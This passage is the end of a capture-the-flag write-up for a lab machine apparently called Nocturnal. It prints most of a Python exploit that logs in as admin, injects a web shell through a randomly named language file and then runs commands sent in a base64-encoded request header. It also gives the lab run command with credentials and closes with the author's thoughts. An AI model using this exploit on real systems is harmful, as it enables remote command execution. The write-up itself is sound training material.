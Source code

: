 ```python
                break

            headers = {'C': base64.b64encode(cmd.encode()).decode()}
            resp = session.get(shell_url, headers=headers, verify=False)
            output = re.search(r'____(.*)____', resp.text, re.DOTALL)

            if output:
                print(output.group(1).strip())
            else:
                print("[-] Exploit failed or no output.")
        except KeyboardInterrupt:
            break

def random_lang_file():
    return ''.join(random.choices(string.ascii_lowercase, k=8)) + '.lng'

def main():
    if len(sys.argv) != 4:
        print(f"Usage: python3 {sys.argv[0]} <URL> <Username> <Password>")
        sys.exit(1)

    url, user, passwd = sys.argv[1:]
    url = ensure_url_structure(url)

    session = requests.Session()
    login(url, user, passwd, session)

    lang_file = random_lang_file()
    csrf_id, csrf_key = get_csrf_tokens(url, session, lang_file)
    inject_shell(url, session, lang_file, csrf_id, csrf_key)
    launch_shell(url, session)

if __name__ == "__main__":
    main()
```

`proxychains python [exploit.py](http://exploit.py/) [http://10.10.11.64:8080/](http://10.10.10.10/) admin slowmotionapocalypse`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662644/image_xm3tp9.png)

And we’re in.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662651/image_rccox3.png)

![image.png](https://res.cloudinary.com/djo6idowf/image/upload/v1751662653/image_pykzgc.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662649/Screenshot_2025-07-04_214102_rblumk.png)

# Thoughts

It’s ok. Generally I find the Easy challenges to be overly convoluted and unrealistic. Nocturnal was good enough I suppose and it posed a good amount of challenge, and at points probably bit too much for the difficulty level.